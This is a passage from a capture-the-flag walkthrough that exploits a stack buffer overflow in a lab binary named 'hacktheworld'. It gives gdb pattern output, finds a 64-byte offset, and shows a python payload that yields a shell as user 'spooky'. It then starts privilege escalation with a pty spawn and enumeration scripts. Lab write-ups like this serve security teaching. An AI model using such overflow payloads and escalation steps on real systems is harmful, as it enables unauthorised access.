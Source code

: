 Luckily for us the binary is pretty easy; it looks like our input is read with a call to `gets`, so we can put our breakpoint on the address after this call (`b *0x0000000000400709`). Now to make things easier, I generate a pattern on my machine:

```bash
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

And submit this as an input. It will hit the breakpoint, and `info registers` will reveal at what point `$rbp` is overwritten:

```
(gdb) ni
0x000000000040070f in main ()
(gdb) info registers 
rax            0x0      0
rbx            0x0      0
rcx            0x7ff691614a00   140696977754624
rdx            0x7ff6916168d0   140696977762512
rsi            0x1801671        25171569
rdi            0x7ffc374b1611   140721236153873
rbp            0x6161616161616169       0x6161616161616169
rsp            0x7ffc374b1658   0x7ffc374b1658
r8             0x18016d5        25171669
```

You can see that rbp was overwritten at `0x6161616161616169`, which is hex for `aaaaaai`, that is at poition 64 in our pattern. Now, in a typical buffer overflow you can overwrite this with x64 shellcode and invoke `sh` , but this binary already has a call to bash embedded, so the quickest way is just to jump to that address (which is left as an exercise):

```
magna@anonymous-playground:~$ (python -c 'print "A"*64+"<invoke bash address>"'; cat -)| ./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
id
uid=1337(spooky) gid=1001(magna) groups=1001(magna)
whoami
spooky
```

Cool, we are the `spooky` user now!

## Root

Finally, let's get root on this box. To get more comfortable, we can spawn a pty with python (`python -c "import pty;pty.spawn('/bin/bash')`). I run the usual LinEnum.sh and linpeas.sh, but I'll jump straight to it; if you look at the cronjobs:
